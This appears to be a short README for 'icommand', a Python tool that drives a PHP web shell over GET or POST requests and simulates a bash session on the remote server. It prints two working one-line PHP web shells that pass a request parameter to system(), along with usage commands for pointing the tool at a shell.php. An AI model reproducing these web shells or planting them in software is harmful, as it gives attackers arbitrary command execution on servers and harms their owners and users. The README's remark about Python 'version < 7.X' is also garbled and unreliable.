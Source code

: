 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
* --url is a positional argument withing GET and POST requests:
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
  	- python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 7.X  
Then [argparse][] is required.  
To install it run:  
`easy_install argparse` **OR** `pip install argparse`

